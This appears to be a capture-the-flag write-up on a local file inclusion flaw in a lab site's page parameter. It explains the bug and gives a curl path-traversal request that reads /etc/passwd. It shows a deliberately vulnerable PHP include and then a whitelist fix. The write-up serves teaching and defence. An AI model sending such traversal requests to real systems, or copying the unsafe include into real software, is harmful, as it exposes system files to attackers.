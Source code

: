 # LFI in page url parameter

## 📖 Vulnerability Explanation
An LFI vulnerability happens when the user's input is not properly sanitized and is used to load a file from the filesystem. This leads to the ability to read files out of the web application directory, such as `/etc/passwd`.

As the web page uses the parameter `?page=<filename>` to load the different pages in the app, we can escape the application directory by using a relative path to the file `/etc/passwd`.

## ⚙️ Exploitation Process
Setting the page to the relative path of the ```/etc/passwd``` file displays the flag.

- Make this request with ```curl``` and get the flag:
```
curl -s 'http://BornToSec.com/index.php?page=../../../../../../../etc/passwd' | grep flag
```

## 🔧 Fix
Defining a whitelist of pages is the best practice. We can also sanitize the input, allowing only alphanumeric characters.

## ☝️🤓 Advanced explanation
The following code snipped is vulnerable to an LFI. The vulnerability happens because the file is accessed without previous checking. If the user inputs a relative route to files out of the web app directory, the web page will access it.

```
<?php

if (isset($_GET['page'])) {
    include($_GET['page'] . '.php');
} else {
    include('home.php');
}

?>
```

In order to fix it, we'll apply a whitelist and character filtering.

```
<?php

$whitelist = ['home', 'about', 'contact'];

$pageToInclude = 'home.php';

if (isset($_GET['page'])) {
    $page = $_GET['page'];

    if (preg_match('/^[a-zA-Z0-9]+$/', $page) && in_array($page, $whitelist)) {
        $pageToInclude = $page . '.php';
    }
}

include($pageToInclude);

?>
```